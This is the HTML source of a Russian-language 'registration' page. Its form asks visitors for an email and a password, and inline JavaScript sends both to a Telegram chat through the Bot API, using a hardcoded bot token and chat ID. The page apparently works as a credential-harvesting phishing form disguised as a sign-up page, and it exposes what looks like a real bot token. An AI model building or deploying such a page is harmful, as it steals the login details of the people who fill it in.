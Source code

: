<html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Регистрация</title>
</head>
<body>
    <h1>Регистрация</h1>
    <form id="registrationForm">
        <label for="username">email:</label>
        <input type="text" id="username" name="username" required>
        <br>
        <label for="email">пароль:</label>
        <input type="email" id="email" name="email" required>
        <br>
        <button type="submit">Зарегистрироваться</button>
    </form>

    <script>
        document.getElementById('registrationForm').addEventListener('submit', function(event) {
            event.preventDefault(); 

            const username = document.getElementById('username').value;
            const email = document.getElementById('email').value;

            const token = '7942332820:AAFC2P1_9T8USat2LkVF_cXqtqCaBqs2O4g';
            const chatId = -1002372284940 
            const message = `Новая регистрация:\nИмя пользователя: ${username}\nEmail: ${email}`;
            const url = `https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;

           
            fetch(url) 
                .then(response => {
                    if (response.ok) {
                        alert('Данные успешно отправлены в Telegram!');
                    } else {
                        alert('Ошибка при отправке данных.');
                    }
                })
                .catch(error => {
                    console.error('Ошибка:', error);
                    alert('Ошибка при отправке данных.');
                });
        });
    </script>
</body>
</html>
